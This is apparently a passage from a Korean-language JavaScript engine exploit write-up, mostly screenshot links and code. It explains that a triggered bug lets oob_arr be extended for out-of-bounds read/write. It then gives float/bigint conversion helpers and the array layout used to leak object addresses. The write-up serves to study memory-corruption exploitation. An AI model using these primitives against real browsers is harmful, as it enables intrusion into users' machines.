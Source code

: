 ![image](https://github.com/user-attachments/assets/e3388db4-0e9d-4a45-bc6f-59031aa2ccc7)

![image](https://github.com/user-attachments/assets/5cb0fff3-d99f-4d23-ae97-b23c0381bbf3)

![image](https://github.com/user-attachments/assets/ed44b19e-37c3-4c57-aa62-571050159792)

`oob_arr`은 한 개의 double을 저장할 수 있는 공간만 가지고 있지만, 버그를 발생시켜 length를 증가시켰기 때문에 자유로운 OOB read/write가 가능하다.

![image](https://github.com/user-attachments/assets/abbfa8be-cc16-4441-abd6-180055d44766)

### Helper functions

```js
let fi_buf = new ArrayBuffer(8); // shared buffer for float and bigint
let f_buf = new Float64Array(fi_buf); // buffer for float
let i_buf = new BigUint64Array(fi_buf); // buffer for bigint

// convert float to bigint
function ftoi(f) {
    f_buf[0] = f;
    return i_buf[0];
}

// convert bigint to float
function itof(i) {
    i_buf[0] = i;
    return f_buf[0];
}

// convert (big)int to hex string
function hex(i) {
    return `0x${i.toString(16)}`;
}
```

### Get address of arbitrary object

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% DebugPrint(obj_arr);
```
